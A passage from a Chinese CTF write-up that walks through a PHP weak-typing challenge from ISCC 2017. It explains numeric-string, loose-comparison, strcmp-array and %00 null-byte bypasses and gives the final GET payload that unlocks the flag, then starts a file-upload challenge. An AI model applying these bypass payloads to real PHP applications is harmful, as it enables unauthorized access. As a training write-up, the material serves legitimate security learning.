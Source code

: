 ~~~PHP
        foreach ($a["bar2"] as $key => $val) {
            $val === "nudt" ? die("nope") : NULL;
        }
        $v2 = 1;
    }
}
$c = @$_GET['cat'];
$d = @$_GET['dog'];
if (@$c[1]) {
    if (!strcmp($c[1], $d) && $c[1] !== $d) {

        eregi("3|1|c", $d . $c[0]) ? die("nope") : NULL;
        strpos(($c[0] . $d), "isccctf2017") ? $v3 = 1 : NULL;

    }

}
var_dump($v1, $v2, $v3);

?>  
~~~

这道题目的意思是要让$v1，$v2，$v3的值都为1时，输出flag。
GET方式传入的是一个json。需要绕过好几个点，第一个点，需要判断的是$a[bar1]是否是数字型字符串，不是的话进入下一步，并且判断是否>2016，是的话$v1=1，这个自相矛盾了。输入2017a利用PHP弱类型的类型转换就可以绕过。
第二个点是他给的代码感觉有点绕，$a[bar2]首先必须是a[4]元素必须有5个，并且第0位必须也为数组（数组套数组）,否则输出“nope”。然后是$a[bar2]里面不能有“nubt”这个字符串，下面的if判断里面，遍历bar2这个数组，里面要有“nubt”，否则输出“nope”，这个叶子向矛盾了，所以又要利用到PHP弱类型的，0=任意字符，让$v2=1的方法就是$a[bar2]=[[],2,3,4,0]。
第三个点，判断$c[1]跟$d是否长度一致并且是否相等，这个可以用array型和string型比较返回NULL来绕过，进入条件语句， $d加上$c[0]中必须要有3或1或c，可以用%00截断来绕过，最后绕过strops()，必须返回1，所以可以这么构造。    
~~~  
cat[1][]=1&dog=%00&cat[0]=0isccctf2017
~~~
最终payload为
~~~
iscc={"bar1":"2017g","bar2":[[1],2,3,4,0]}&cat[1][]=1&dog=%00&cat[0]=0isccctf2017
~~~
这道题就是综合考察PHP弱类型的，本来对这个弱类型了解的也不太多，然后今天回想这道题目的时候就查到一篇文章，[PHP黑魔法](http://www.am0s.com/ctf/128.html?utm_source=tuicool&utm_medium=referral)
知识点总结的很好。

### 00x5 I have a jpg,i upload a txt.


题目忘了，但是还好有题目描述，
题目描述：
小明发现，php将上传的jpg文件流写入一个txt中，再重命名后缀为jpg还可以正常读取，于是写了一段上传代码，会不会有什么漏洞呢？


代码：
~~~PHP
<?php
include 'hanshu.php';
if (isset($_GET['do'])) {
    $do = $_GET['do'];
    if ($do == upload) //如果do内容是upload
    {
        if (empty($_FILES)) {
//文件流不存在东西就出现上传目录
            //文件上传页面
            $html1 = <<<HTML1
            <form action="index.php?do=upload" method="post" enctype="multipart/form-data">
            <input type="file" name="filename">
            <input type="submit" value="upload">
            </form>
HTML1;
~~~